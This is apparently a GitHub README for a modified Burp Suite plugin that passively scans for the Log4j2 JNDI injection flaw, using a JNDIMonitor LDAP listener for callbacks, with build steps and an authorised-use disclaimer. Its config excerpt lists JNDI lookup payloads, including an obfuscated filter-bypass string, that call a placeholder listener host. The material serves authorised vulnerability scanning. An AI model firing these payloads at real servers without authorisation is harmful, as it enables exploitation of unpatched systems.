


# log4jScan_Modify

# 免责声明

**本项目仅面向合法授权的企业安全建设行为，在使用本项目进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**

**如您在使用本项目的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。**

**在使用本项目前，请您务必审慎阅读、充分理解各条款内容，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。**

**除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要使用本项目。**

**您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。**



**本插件修改自：https://github.com/pmiaowu/log4j2Scan/commit/d160bf2349cb2f423300469a48de53c75a8031ec**

**根据原插件DnsLogCn模块的判定逻辑，修改为对接 [JNDIMonitor [一个LDAP请求监听器，摆脱dnslog平台]](https://github.com/r00tSe7en/JNDIMonitor) 的`api2=all`接口使用。**

插件详情及编译方法参考：https://github.com/pmiaowu/log4j2Scan

# 插件使用

## 0x01 启动JNDIMonitor监听

参考：https://github.com/r00tSe7en/JNDIMonitor

## 0x02 修改和编译log4jScan_Modify插件

1）下载 `log4jScan_Modify` 源码

2）需要修改`log4j2Scan_modify\src\main\java\burp\DnsLogModule\ExtensionMethod\LdapLogCn.java`中的`ip:port`为`JNDIMonitor`监听的`ip`和`port`

```java
    private String dnslogDomainName = "http://ip:port/?api2=all"; //JNDIMonitor监听http的api2接口
    private String temporaryDomainName = "ip:port"; //JNDIMonitor监听ldap的接口
```

3）`config.yml`默认已经配好，由于对接的是`ldap`监听器，所以已经把不相关的其他协议`payload`注释掉了，如果还有其他的`ldap bypass payload` 可以自己手动加进去。

```yaml
#- "${jndi:dns://dnslog-url/t}"
#- "%24%7Bjndi%3Adns%3A%2F%2Fdnslog-url%2Ft%7D"
- "${jndi:ldap://dnslog-url/t}"
#- "${jndi:rmi://dnslog-url/t}"
- "${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://dnslog-url/t}"
#- "${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://dnslog-url/t}"
```

4）修改完成后就可以开始编译了，生成的插件文件在如下目录。

```
log4j2Scan_modify\target\log4j2Scan
 -/resources/config.yml
 -log4jScan_modify.jar
```

5）开始被动检测即可，可以看到检测日志。



# 感谢

@pmiaowu

@melon


